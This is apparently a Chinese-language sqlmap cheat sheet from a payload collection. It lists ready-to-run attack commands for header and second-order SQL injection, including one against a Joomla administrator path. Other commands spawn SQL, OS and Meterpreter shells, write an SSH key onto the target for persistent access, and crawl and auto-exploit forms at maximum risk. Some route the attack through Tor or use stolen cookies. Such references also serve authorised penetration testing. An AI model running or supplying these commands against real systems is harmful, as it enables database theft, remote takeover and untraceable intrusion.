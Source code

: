 ### 在UserAgent/Header/Referer/Cookie中自定义注入

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
注入位于'*'处
```

### 二次注入

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

* SQL Shell: `python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell`
* OS Shell: `python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell`
* Meterpreter: `python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn`
* SSH Shell: `python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/`

### 使用SQLmap爬取网站并自动利用

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = 非交互模式，通常Sqlmap会问你问题，这个接受默认答案
--crawl = 你想爬取站点的深度
--forms = 解析并测试表单
```

### 使用TOR与SQLmap

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### 使用代理与SQLmap

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### 使用Chrome cookie和代理

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```
